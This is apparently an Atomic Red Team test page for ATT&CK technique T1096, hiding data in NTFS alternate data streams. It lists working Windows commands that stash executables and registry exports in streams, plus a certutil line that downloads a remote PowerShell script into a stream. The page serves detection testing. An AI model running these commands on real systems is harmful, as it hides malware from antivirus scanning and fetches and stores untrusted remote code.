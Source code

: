 # T1096 - NTFS File Attributes
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1096)
<blockquote>Every New Technology File System (NTFS) formatted partition contains a Master File Table (MFT) that maintains a record for every file/directory on the partition. (Citation: SpectorOps Host-Based Jul 2017) Within MFT entries are file attributes, (Citation: Microsoft NTFS File Attributes Aug 2010) such as Extended Attributes (EA) and Data [known as Alternate Data Streams (ADSs) when more than one Data attribute is present], that can be used to store arbitrary data (and even complete files). (Citation: SpectorOps Host-Based Jul 2017) (Citation: Microsoft File Streams) (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Adversaries may store malicious data or binaries in file attribute metadata instead of directly in files. This may be done to evade some defenses, such as static indicator scanning tools and anti-virus. (Citation: Journey into IR ZeroAccess NTFS EA) (Citation: MalwareBytes ADS July 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Alternate Data Streams (ADS)](#atomic-test-1---alternate-data-streams-ads)


<br/>

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:\ADS\|

#### Run it with `command_prompt`!
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```
<br/>

